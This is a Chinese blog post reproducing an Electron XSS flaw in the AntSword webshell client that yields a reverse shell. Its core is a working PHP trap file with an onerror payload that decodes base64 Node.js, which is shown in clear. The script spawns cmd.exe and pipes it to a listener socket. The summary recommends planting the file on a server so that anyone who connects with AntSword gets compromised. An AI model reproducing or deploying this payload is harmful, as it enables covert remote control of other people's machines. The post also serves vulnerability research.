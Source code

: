 ﻿---
layout: post
title: 漏洞复现：蚁剑 Electron XSS反弹shell复现
date: 2019-09-19
categories: blog
tags: [漏洞复现，蚁剑]
description: 蚁剑 Electron XSS
---

####一、环境
>antsword2.0.5以前，antsword使用了Electron，Electron是由Github开发，用HTML，CSS和JavaScript来构建跨平台桌面应用程序的一个开源库。 Electron通过将Chromium和Node.js合并到同一个运行时环境中，并将其打包为Mac，Windows和Linux系统下的应用来实现这一目的。
####二、复现过程
>phpstudy网站根目录添加webshell文件，ant.php，存在XSS
![](https://upload-images.jianshu.io/upload_images/15634342-be1d8183dc2cdc6f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

>phpstudy网站根目录添加webshell文件，ant.php
```
<?php
header("HTTP/1.1 500 Not <img src=# onerror='eval(new Buffer(`dmFyIG5ldCA9IHJlcXVpcmUoIm5ldCIpLCBzaCA9IHJlcXVpcmUoImNoaWxkX3Byb2Nlc3MiKS5leGVjKCJjbWQuZXhlIik7CnZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpOwpjbGllbnQuY29ubmVjdCg2Njc3LCAiMTI3LjAuMC4xIiwgZnVuY3Rpb24oKXtjbGllbnQucGlwZShzaC5zdGRpbik7c2guc3Rkb3V0LnBpcGUoY2xpZW50KTsKc2guc3RkZXJyLnBpcGUoY2xpZW50KTt9KTs=`,`base64`).toString())'>");
?>
```
>特别需要注意webshell的内容是base64编码之后的，编码之前为

```
var net = require("net"), sh = require("child_process").exec("cmd.exe");
var client = new net.Socket();
client.connect(6677, "127.0.0.1", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```
>本地nc监听端口
![](https://upload-images.jianshu.io/upload_images/15634342-0ea84fbca44a39f0.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

>使用蚁剑访问webshell
![](https://upload-images.jianshu.io/upload_images/15634342-c19a800c6f860cdc.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

>webshell反弹成功
![](https://upload-images.jianshu.io/upload_images/15634342-15269de34a8f2e4d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

####三、总结
>适用范围：挂一个webshell在服务器上，等别人用蚁剑来连，连接之后就算蚁剑关闭，shell仍存在
局限：XSS配合Electron才能反弹shell，不然只能打cookie等

参考链接：
[https://github.com/theLSA/CS-checklist](https://github.com/theLSA/CS-checklist)
[https://www.anquanke.com/post/id/176379](https://www.anquanke.com/post/id/176379)













